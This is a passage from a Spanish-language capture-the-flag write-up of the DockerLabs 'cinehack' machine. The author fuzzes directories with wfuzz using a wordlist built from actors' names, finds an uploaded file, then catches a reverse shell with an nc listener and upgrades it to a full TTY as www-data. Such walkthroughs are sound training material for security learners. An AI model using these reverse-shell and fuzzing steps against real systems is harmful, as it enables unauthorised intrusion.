 Para encontrar la ubicación del archivo subido, realicé un escaneo exhaustivo de la máquina sin éxito. Solo logré identificar la ruta correcta tras generar una lista de nombres basada en los actores de las películas en cartelera.

```terminal
/home/kali/Documents/dockerlabs/cinehack:-$ echo 'cateblanchett\nblanchettcate\ncate\nblanchett\nkevinhart\nhartkevin\nkevin\nhart\njackblack\nblackjack\njack\nblack\narianagreenblatt\ngreenblattariana\nariana\ngreenblatt\nflorianmounteanu\nmounteanuflorian\nflorian\nmounteanu\njaimeleecurtis\ncurtisjaimelee\njaime\ncurtis\nfedealvarez\nalvarezfede\nfede\nalvarez\nridleyscott\nscottridley\nridley\nscott\nandrewgarfield\ngarfieldandrew\nandrew\ngarfield\nflorencepugh\npughflorence\nflorence\npugh\nanalopez\nlopezana\nana\nlopez\ncarlosmartinez\nmartinezcarlos\ncarlos\nmartinez' > users.txt
```

```terminal
/home/kali/Documents/dockerlabs/cinehack:-$ wfuzz -u http://cinema.dl/FUZZ/ -w users.txt --hc=404 -c -t 200
```

![](assets/img/dockerlabs-writeup-cinehack/cinehack1_7.png)

A través de este método, descubrí que el archivo fue almacenado en el directorio andrewgarfield. Procedí a ejecutar la shell para obtener acceso al sistema.

```terminal
/home/kali/Documents/dockerlabs/cinehack:-$ nc -nvlp 4321
	listening on [any] 4321 ...
```

![](assets/img/dockerlabs-writeup-cinehack/cinehack1_8.png)

```terminal
	... connect to [192.168.0.171] from (UNKNOWN) [192.168.0.171] 34910

script /dev/null -c bash

www-data@kali:/var/www/cinema.dl/andrewgarfield$ ^Z

/home/kali/Documents/dockerlabs/cinehack:-$ stty raw -echo;fg
[1]  + continued  nc -nvlp 4321
                               reset

Terminal type? xterm

www-data@kali:/var/www/cinema.dl/andrewgarfield$ export TERM=xterm
```
